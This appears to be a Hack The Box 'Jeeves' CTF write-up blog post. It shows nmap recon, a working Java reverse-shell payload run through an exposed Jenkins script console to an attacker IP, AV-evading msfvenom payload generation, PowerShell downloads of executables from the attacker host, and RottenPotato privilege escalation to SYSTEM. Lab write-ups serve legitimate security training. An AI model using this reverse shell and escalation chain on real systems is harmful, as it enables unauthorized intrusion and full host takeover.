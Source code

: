 ```yaml
---
layout: post
title:  "Hack The Box Jeeves writeup (RotenPotato Edition)"
date:   2020-01-09 18:46:11 -0400
featured_img: "/assets/jeeves/jeeves.png"
categories: BoF oscp
---
```



![Jeeves](/assets/jeeves/jeeves.png)

This machine is interesting to me because of the way we can do privilege escalation here.

As always let's start with nmap.

`nmap -A -p- 10.10.10.63`

{% highlight shell %}
nmap -A -p- 10.10.10.63
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-08 12:22 EST
Nmap scan report for 10.10.10.63
Host is up (0.048s latency).
Not shown: 65528 filtered ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-01-10T03:49:58+00:00; +1d10h23m27s from scanner time.
49665/tcp open  msrpc              Microsoft Windows RPC
49666/tcp open  msrpc              Microsoft Windows RPC
50000/tcp open  http               Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008 (86%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1d10h23m26s, deviation: 0s, median: 1d10h23m26s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-01-10T03:49:18
|_  start_date: 2020-01-10T00:26:08

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   53.04 ms 10.10.14.1
2   53.12 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 284.38 seconds
{% endhighlight %}


Let's brute force directories on port 50000

![nmap](/assets/jeeves/nmap.png)

We found /askjeeves, so let's navigate to ` http://10.10.10.63:50000/askjeeves/`

![nmap](/assets/jeeves/dirsearch.png)

This is Jenkins.

![nmap](/assets/jeeves/jenkins.png)

Some googling and we figure out that it is possible to create reverse shell with the following code

{% highlight shell %}
String host="10.10.14.16";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

We just need to go to http://10.10.10.63:50000/askjeeves/script paste our code and click run.

![nmap](/assets/jeeves/jenkins2.png)

Start listener:

`nc -nvlp 4444`

And we got a shell

![nmap](/assets/jeeves/shell.png)

We can grab a user.txt now.

But first we need to navigate to kohsuke user folder.

![nmap](/assets/jeeves/user.png)

Ok, I know there are multiple ways to do privilege escalation on this machine. But as you can tell from the title we will do RotenPotato here.

Let's do `systeminfo`

![nmap](/assets/jeeves/systeminfo.png)

Check privileges

`whoami /priv`

![nmap](/assets/jeeves/priv.png)

`SeImpersonatePrivilege` tells us we can probably use Roten Potato here.

For this we need to generate a reverse shell, but since we will probably have AV on the machine we need to encode it. For this we will use Phantom Evasion, whic can be found here `https://github.com/oddcod3/Phantom-Evasion`

Do: `git clone https://github.com/oddcod3/Phantom-Evasion.git` got to Phantom-Evasion folder and run it `python phantom-evasion.py`

Select following options:

1. Windows modules

3. Powershell / Wine-pyinstaller

2. Windows Powershell Script Dropper

enter

1. Msfvenom powershell payload

Put your IP and Port you will be listening on.

Choose name for you shell file

multi processes: n
strip executable: n
sign executable: n

![nmap](/assets/jeeves/phantom.png)

Copy created file to our jeeves folder.

Now inside jeeves folder let's start SimpleHTTPServer on port 80

`python -m SimpleHTTPServer 80`

![http](/assets/jeeves/http.png)

Clone repo and copy MSFRotenPotato.exe to our folder and name it rot.exe
`https://github.com/decoder-it/lonelypotato`



Upload rotenpotato executable (rot.exe)

`powershell Invoke-WebRequest -o rot.exe http://10.10.14.16/rot.exe`

![nmap](/assets/jeeves/rot.png)

Upload shell

`powershell Invoke-WebRequest -o she.exe http://10.10.14.16/she.exe`

![nmap](/assets/jeeves/she.png)

Start listener on port 443

`nc -nvlp 443`

Run Roten Potato script 

`C:\Users\kohsuke\rot.exe * she.exe`

![nmap](/assets/jeeves/lonelypotato.png)

And we got shell

![nmap](/assets/jeeves/shell2.png)

Let's try accesing Administrator fodler and check root.txt

![nmap](/assets/jeeves/root.png)

Here we do not have root.txt as always but it is hidden inside hm.txt using alternative streams

To view the flag.

`powershell get-content .\hm.txt -stream root.txt`

![nmap](/assets/jeeves/root2.png)

